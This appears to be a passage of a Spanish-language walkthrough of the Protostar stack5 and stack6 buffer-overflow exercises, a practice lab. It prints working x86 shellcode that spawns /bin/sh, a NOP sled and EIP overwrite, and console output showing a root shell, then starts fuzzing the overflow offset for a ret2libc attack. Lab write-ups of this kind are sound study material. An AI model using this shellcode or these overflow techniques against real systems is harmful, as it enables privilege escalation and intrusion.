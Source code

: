```python
nops = "\x90" *20
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
shellcode += "\x53\x68/tty\x68/dev\x89\xe3\x31"
shellcode += "\xc9\x66\xb9\x12\x27\xb0\x05\xcd"
shellcode += "\x80\x31\xc0\x50\x68//sh\x68/bin"
shellcode += "\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
print(offset + eip + nops + shellcode)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py > /tmp/pattern
(gdb) run </tmp/pattern
Starting program: /opt/protostar/bin/stack5 </tmp/pattern
Executing new program: /bin/dash
$ whoami
user
```
GDB no puede ejecutar los programas SUID por eso seguimos siendo user. La razon del bin dash esque es un enlace a bash.
> El cat es para mantener el standar input abierto porque si no la consola que te abre te la cierra al instante.

```console
[user@protostar]-[/opt/protostar/bin]:$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Nov 22  2011 /bin/sh -> dash
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py; cat) | ./stack5
whoami
Illegal Instruction
```
Me salía eso y me acabe rallando, pero la solución era muy tonta, aumentar el salto del eip y los nops
```python
eip = struct.pack('I', 0xbffff6ac+20)
nops = "\x90" *80
```
```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py; cat) | ./stack5
# whoami
root
```

---------------------------------------------------------------------------

# Ret2libc -> [stack6](https://exploit.education/protostar/stack-six/)

Con el stack 6 no podemos inyectar shellcode en la pila, ya que no nos permite volver a ella poniendola en el eip. Entonces como no hay shellcode, hay
que aprovecharse de código que ya existe en el programa, en concreto las funciones de stdlib de C.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 75 )"| ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 )"| ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
A partir de las 76 da el SEGFAULT, pero dónde está el eip? Vamos a meter un patrón reconocible para ver dónde está.
